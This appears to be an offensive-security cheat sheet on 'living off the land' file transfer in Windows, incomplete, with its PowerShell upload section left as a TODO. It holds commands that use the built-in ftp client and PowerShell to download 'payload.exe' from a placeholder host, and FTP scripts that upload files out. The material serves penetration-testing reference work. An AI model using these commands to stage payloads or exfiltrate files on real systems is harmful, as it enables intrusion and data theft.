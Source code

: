 # Living off the Land

## 01 - Download

### 1.1 - Command Prompt

You can include `ftp` commands to execute in a non-interactive way.

```
C:\> type transfer-file-ftp-GET.txt
open <ftp_server_IP> 21
USER <username>
<password>
binary
GET file.txt
bye

C:\> ftp -v -n -s:transfer-file-ftp-GET.txt
```

### 1.2 - PowerShell

#### 1.1.1 - `DownloadFile`

```powershell
PS C:\> $username = "<username>"
$password = "<password>"
$credential = New-Object System.Net.NetworkCredential($username, $password)
$webclient = New-Object System.Net.WebClient
$webclient.Credentials = $credential
$webclient.DownloadFile("ftp://<IP>/payload.exe", "payload.exe")
```

#### 1.1.2 - `Invoke-WebRequest`

```powershell
PS C:\> $username = "<username>"
$password = ConvertTo-SecureString "<password>" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential($username, $password)
Invoke-WebRequest -UseBasicParse -Uri ftp://<IP>/payload.exe -OutFile payload.exe -Credential $credential
```

Can be simplified with `System.Net.NetworkCredential($username, $password)`.

```powershell
$username = "<username>"
$password = "<password>"
$credential = New-Object System.Net.NetworkCredential($username, $password)
Invoke-WebRequest -UseBasicParse -Uri ftp://<IP>/readme.txt -OutFile file.txt -Credential $credential
```

## 02 - Upload

### 2.1 - Command Prompt

```
C:\> transfer-file-ftp-PUT.txt
open <ftp_server_IP> 21
USER <username>
<password>
binary
PUT file.txt
bye

C:\> ftp -v -n -s:transfer-file-ftp-PUT.txt
```

### 2.2 - PowerShell

#### 2.2.1 - `UploadFile`

```
TODO: Fill in this info
```